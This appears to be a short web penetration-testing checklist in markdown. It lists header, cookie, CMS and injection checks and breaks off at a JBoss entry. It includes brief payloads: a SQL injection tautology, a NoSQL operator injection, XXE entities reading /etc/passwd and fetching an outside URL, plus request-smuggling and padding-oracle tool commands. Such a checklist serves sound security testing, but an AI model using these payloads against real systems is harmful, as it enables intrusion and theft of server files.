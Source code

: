 ### Checks

- robots.txt
- sitemap.xml
- CMS (content management systems):
  - WordPress
  - SAP
  - Bolt
- headers <https://securityheaders.com>:
  - HSTS: no Strict-Transport-Security;
  - CORS: Access-Control-Allow-Origin:*;
  - CLICKJACKING (only inside session): no X-Frame-Options;
- session cookies:
  - secure flag
  - httponly flag
- hidden content in pages
- XSS:
  - DOM
  - reflected
  - stored
  - blind
- SQLi:
```bash
' or 1=1 -- -; blind; time based;
```
- NoSQLi:
```bash
PARAMETER[$ne]=user
```
- XXE (XML external entity):
```bash
<!DOCTYPE foo [<!ENTITY test 'test123'>]> <tag>&test;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]> <tag>&xxe;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'http://test.com'>]> <tag>&xxe;</tag>
```
- request smuggling:
```bash
smuggler -u URL -l FILE_NAME
```
- padding Oracle attacks:
```bash
perl padBuster.pl URL
```

### Wordpress

URL/?author=ID
URL/?s=author
URL/?s=by

### JBOSS

jmx-console:
